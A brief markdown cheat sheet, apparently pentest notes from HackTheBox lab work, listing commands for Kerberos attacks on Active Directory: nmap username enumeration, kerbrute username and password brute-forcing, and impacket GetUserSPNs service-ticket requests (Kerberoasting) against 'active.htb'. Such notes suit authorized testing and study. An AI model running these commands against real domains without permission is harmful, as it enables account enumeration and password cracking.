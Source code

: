 # Get username

## nmap
```
 nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="{Domain_Name}",userdb={Big_Userlist} {IP}
```

# Get username or password with kerbrute
```
git clone https://github.com/ropnop/kerbrute.git 
./kerbrute -h
```

# Get Service Principal Name with impacket
```
 Name: With Creds
  Description: Attempt to get a list of user service principal names
  Command: GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs

```